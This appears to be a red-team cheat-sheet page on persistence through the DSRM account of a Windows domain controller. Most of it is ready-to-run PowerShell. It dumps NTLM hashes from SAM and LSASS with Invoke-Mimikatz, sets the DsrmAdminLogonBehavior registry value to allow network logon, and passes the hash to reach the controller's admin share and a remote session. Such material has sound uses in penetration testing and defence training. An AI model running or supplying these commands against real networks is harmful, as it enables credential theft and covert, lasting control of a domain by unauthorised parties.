 # DSRM

Directory Services Restore Mode (DSRM) is a Safe Mode boot option for Windows Server domain controllers and the main purpose of DSRM is to help system admins log in to the system to restore or repair an AD database.\
\
Every Domain controller has local administrator account called "Administrator" and his password is the DSRM password.

## Dump DSRM NTLM hash

{% hint style="info" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# dumping from sam - DSRM local Administrator hash
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' 
```

```powershell
# dumping from lsass - Administrator hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```

## Change Logon Behavior

In order to use DSRM account hash we need to change his registry key

```powershell
# Entering DC session
Enter-PSSession -ComputerName dcorp-dc

# Check if key exists
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior'

# If exists set his value to 2
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -Verbose

# If does not exist create it and set his value to 2
New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -PropertyType DWORD -Verbose
```

## Passing the hash

```powershell
# /domain - the domain controller
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator
/ntlm:a102ad5753f4c441e3af31c97fad86fd 
/run:powershell.exe"'
# Set the DC IP in trust list.
Set-Item WSman:\localhost\Client\TrustedHosts <DC-IP>
# Check if worked
ls \\dcorp-dc\C$
Enter-PSSession -ComputerName <DC-IP> -Authentication NegotiateImplictCredential
```

Use `$env:username` to get the logged in username.
